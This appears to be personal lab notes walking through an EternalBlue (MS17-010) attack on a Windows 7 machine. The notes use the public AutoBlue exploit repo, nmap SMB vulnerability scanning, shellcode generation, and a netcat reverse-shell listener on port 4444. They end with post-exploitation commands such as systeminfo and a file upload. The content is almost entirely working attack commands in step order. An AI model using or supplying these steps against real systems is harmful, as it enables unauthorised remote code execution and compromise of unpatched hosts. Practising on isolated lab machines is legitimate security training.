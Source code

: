 1. Clone the Repo:
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git  
gh repo clone 3ndG4me/AutoBlue-MS17-010



```
cd /to the dir whre you have requirements.txt/
virtualenv venv1   
source venv/bin/activate
pip install -r requirements.txt
pip list ##to see the list of packages installed.

```

Now take a look at the shellcode.sh this will generate the shellcode.
Now before we do this lets check if the target is vuln or not?

use namp
```
sudo nmap -sV -p 445 -O 10.0.2.5
-- target is win 7
ls -la /usr/share/nmap/scripts | grep smb-

--let's see if this target is vuln to smb- script
nmap -sV -p 445 -O --script=smb- 10.0.2.5 
```

```
chmod 777 shell_prep.sh
./shell_prep.sh

---------------------------------------------------------------------------------
┌──(venv1)─(root㉿kali)-[/home/…/git_clones/metasploit_1_eternablue_manual_git/AutoBlue-MS17-010-master/shellcode]
└─# ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

```
we're not doing the listner.py as we're using the cmd here for shell

Make the .py file executable.
```
--Another shell:
nc -nvlp 4444
--main shell
python eternalblue_exploit7.py 10.0.2.6 shellcode/sc_x64.bin 
```

    net user
    systeminfo
    getuid
    upload /home/kali/file.txt C:\to the desired file location on win\
Done!
